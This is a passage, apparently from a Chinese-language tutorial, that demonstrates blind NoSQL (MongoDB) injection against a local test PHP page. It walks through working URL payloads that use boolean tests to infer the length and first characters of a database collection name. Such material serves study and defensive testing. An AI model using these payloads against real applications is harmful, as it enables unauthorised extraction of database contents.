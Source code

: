 ![enter image description here](img/img11_u22_png.jpg)

获取集合名称

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0].length==6%26%26'1'=='1

返回正常，第一个集合名称长度为 6

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]>'a'%26%26'1'=='1

返回正常，第一个集合名称第一个字符大于 a

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]=='m'%26%26'1'=='1

返回正常，第一个集合名称第一个字符为 m

![enter image description here](img/img12_u53_png.jpg)
